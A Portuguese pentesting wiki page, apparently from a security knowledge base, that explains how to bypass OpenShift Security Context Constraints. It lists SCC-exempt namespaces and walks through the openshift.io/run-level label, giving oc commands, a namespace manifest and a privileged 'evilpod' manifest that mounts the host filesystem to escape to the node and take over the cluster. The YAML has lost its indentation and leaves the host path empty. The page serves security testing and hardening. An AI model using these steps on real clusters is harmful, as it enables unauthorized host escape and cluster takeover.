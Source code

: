 # Openshift - Bypass de SCC

**O autor original desta página é** [**Guillaume**](https://www.linkedin.com/in/guillaume-c-ab4b9a196/en)

## Namespaces Privilegiados

Por padrão, SCC não se aplica nos seguintes projetos:

- **default**
- **kube-system**
- **kube-public**
- **openshift-node**
- **openshift-infra**
- **openshift**

Se você implantar pods em um desses namespaces, nenhum SCC será aplicado, permitindo a implantação de pods privilegiados ou montagem do sistema de arquivos do host.

## Rótulo de Namespace

Existe uma maneira de desativar a aplicação do SCC no seu pod de acordo com a documentação da RedHat. Você precisará ter pelo menos uma das seguintes permissões:

- Criar um Namespace e criar um Pod neste Namespace
- Editar um Namespace e criar um Pod neste Namespace
```bash
$ oc auth can-i create namespaces
yes

$ oc auth can-i patch namespaces
yes
```
O rótulo específico `openshift.io/run-level` permite aos usuários contornar SCCs para aplicações. Conforme a documentação da RedHat, quando este rótulo é utilizado, nenhum SCC é aplicado a todos os pods dentro desse namespace, removendo efetivamente quaisquer restrições.

<figure><img src="../../../.gitbook/assets/Openshift-RunLevel4.png" alt=""><figcaption></figcaption></figure>

## Adicionar Rótulo

Para adicionar o rótulo em seu namespace:
```bash
$ oc label ns MYNAMESPACE openshift.io/run-level=0
```
Para criar um namespace com o rótulo através de um arquivo YAML:
```yaml
apiVersion: v1
kind: Namespace
metadata:
name: evil
labels:
openshift.io/run-level: 0
```
Agora, todos os novos pods criados no namespace não devem ter nenhum SCC

<pre class="language-bash"><code class="lang-bash"><strong>$ oc get pod -o yaml | grep 'openshift.io/scc'
</strong><strong>$
</strong></code></pre>

Na ausência de SCC, não há restrições na definição do seu pod. Isso significa que um pod malicioso pode ser facilmente criado para escapar para o sistema host.
```yaml
apiVersion: v1
kind: Pod
metadata:
name: evilpod
labels:
kubernetes.io/hostname: evilpod
spec:
hostNetwork: true #Bind pod network to the host network
hostPID: true #See host processes
hostIPC: true #Access host inter processes
containers:
- name: evil
image: MYIMAGE
imagePullPolicy: IfNotPresent
securityContext:
privileged: true
allowPrivilegeEscalation: true
resources:
limits:
memory: 200Mi
requests:
cpu: 30m
memory: 100Mi
volumeMounts:
- name: hostrootfs
mountPath: /mnt
volumes:
- name: hostrootfs
hostPath:
path:
```
Agora, tornou-se mais fácil escalar privilégios para acessar o sistema host e posteriormente assumir o controle de todo o cluster, ganhando privilégios de 'cluster-admin'. Procure a parte de **Pós-Exploração do Nó** na seguinte página:

{% content-ref url="../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md" %}
[attacking-kubernetes-from-inside-a-pod.md](../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md)
{% endcontent-ref %}

### Rótulos personalizados

Além disso, com base na configuração do alvo, alguns rótulos / anotações personalizados podem ser usados da mesma forma que no cenário de ataque anterior. Mesmo que não seja feito para isso, os rótulos podem ser usados para conceder permissões, restringir ou não um recurso específico.

Tente procurar por rótulos personalizados se puder ler alguns recursos. Aqui está uma lista de recursos interessantes:

* Pod
* Deployment
* Namespace
* Service
* Route
```bash
$ oc get pod -o yaml | grep labels -A 5
$ oc get namespace -o yaml | grep labels -A 5
```
## Listar todos os namespaces privilegiados
```bash
$ oc get project -o yaml | grep 'run-level' -b5
```
## Exploração avançada

No OpenShift, como demonstrado anteriormente, ter permissão para implantar um pod em um namespace com o rótulo `openshift.io/run-level` pode levar a uma tomada de controle direta do cluster. Do ponto de vista das configurações do cluster, essa funcionalidade **não pode ser desativada**, pois é inerente ao design do OpenShift.

No entanto, medidas de mitigação como o **Open Policy Agent GateKeeper** podem impedir que os usuários definam esse rótulo.

Para contornar as regras do GateKeeper e definir esse rótulo para executar uma tomada de controle do cluster, os **atacantes precisariam identificar métodos alternativos**.

## Referências

* [https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html](https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html)
* [https://docs.openshift.com/container-platform/3.11/admin\_guide/manage\_scc.html](https://docs.openshift.com/container-platform/3.11/admin\_guide/manage\_scc.html)
* [https://github.com/open-policy-agent/gatekeeper](https://github.com/open-policy-agent/gatekeeper)
